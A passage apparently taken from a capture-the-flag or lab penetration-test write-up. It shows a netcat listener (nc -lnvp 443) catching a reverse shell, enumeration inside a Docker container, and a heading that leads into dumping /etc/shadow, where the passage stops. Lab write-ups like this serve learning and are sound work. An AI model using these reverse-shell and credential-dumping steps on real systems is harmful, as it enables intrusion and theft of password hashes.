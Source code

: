 ```bash
nc -lnvp 443
```

On execution:
![nc_shell](screenshots/nc_shell.png)  

We obtain a shell inside a **Docker container**.

---
## 4. Docker Enumeration

```bash
whoami
hostname
```

![docker_machine](screenshots/docker_machine.png)  

The hostname confirms a Dockerized environment.  
Listing users shows limited accounts:

![docker_machine_permissions](screenshots/docker_machine_permissions.png)  

Dumping `/etc/shadow`:
